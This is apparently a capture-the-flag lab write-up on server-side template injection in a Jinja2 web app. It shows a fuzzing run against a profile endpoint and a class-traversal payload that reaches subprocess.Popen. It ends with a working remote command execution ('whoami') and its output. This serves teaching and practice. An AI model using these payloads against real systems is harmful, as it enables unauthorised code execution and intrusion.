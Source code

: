 # IP
10.10.55.183 


## Introduction
### Server Side Template(STT)
- These are templates used for automating a code, so that it can be used in many conditions.
- In this condition, it is used to welcome a user, by including name of the user in the url.
- Code injection in STT is called STTI

## Detection
- There are many ways of detecting a STT, but we will be using the manual method.
- In this example the STT is at endpoint `\profile\`
- These `${{<%[%'"}}%` characters are used in a few template engines.
- So made a python string to regex the combinations and try to request the server.

```console
❯ python3 fuzzer.py  http://10.10.55.183:5000/profile/
This is breaking the system:	http://10.10.55.183:5000/profile/${{
This is breaking the system:	http://10.10.55.183:5000/profile/${{<
This is breaking the system:	http://10.10.55.183:5000/profile/${{<%
This is breaking the system:	http://10.10.55.183:5000/profile/${{<%[
This is breaking the system:	http://10.10.55.183:5000/profile/${{<%[%
This is breaking the system:	http://10.10.55.183:5000/profile/${{<%[%'
This is breaking the system:	http://10.10.55.183:5000/profile/${{<%[%'"
This is breaking the system:	http://10.10.55.183:5000/profile/${{<%[%'"}
This is breaking the system:	http://10.10.55.183:5000/profile/${{<%[%'"}}
This is breaking the system:	http://10.10.55.183:5000/profile/{{
This is breaking the system:	http://10.10.55.183:5000/profile/{{<
This is breaking the system:	http://10.10.55.183:5000/profile/{{<%
This is breaking the system:	http://10.10.55.183:5000/profile/{{<%[
This is breaking the system:	http://10.10.55.183:5000/profile/{{<%[%
This is breaking the system:	http://10.10.55.183:5000/profile/{{<%[%'
This is breaking the system:	http://10.10.55.183:5000/profile/{{<%[%'"
This is breaking the system:	http://10.10.55.183:5000/profile/{{<%[%'"}
This is breaking the system:	http://10.10.55.183:5000/profile/{{<%[%'"}}
```
- As we can see that `{{` can break the page as a combination of braces.
- Now these braces are used in few template engines in their codes.

## Identification
- By using `template enumeration.png`, enumerated the website and found code engine to be Jinja2. 
- Now tried to found the class for code injection.
- Python allows us to call the current class instance with .__class__, we can call this on an empty string:

> Payload: `http://10.10.55.183:5000/profile/{{ ''.__class__ }}`.

- Classes in Python have an attribute called .__mro__ that allows us to climb up the inherited object tree:

> Payload: `http://10.10.55.183:5000/profile/{{ ''.__class__.__mro__ }}`

- Since we want the root object, we can access the second property (first index):

> Payload: `http://10.10.55.183:5000/profile/{{ ''.__class__.__mro__[1] }}`.

- Objects in Python have a method called .__subclassess__ that allows us to climb down the object tree:

> Payload: `http://10.10.55.183:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__() }}`.

- Made an index searching script to search for index with subprocess class to execute python code.
- Found the index to be 401

```console
❯ python3 indexSearch.py data.txt " <class 'subprocess.Popen'>"

Index:	401

```

## Exploiation
- Made this payload `http://10.10.55.183:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}`
- Got this output.

```console
❯ python3
Python 3.10.5 (main, Jun  8 2022, 09:26:22) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> req = requests.get("http://10.10.55.183:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401](\"whoami\", shell=True,     stdout=-1).communicate() }}")
>>> req.text
'<h1>Welcome to the profile of (b&#39;jake\\n&#39;, None)!</h1>'
>>>

```
User on the system is **Jake**
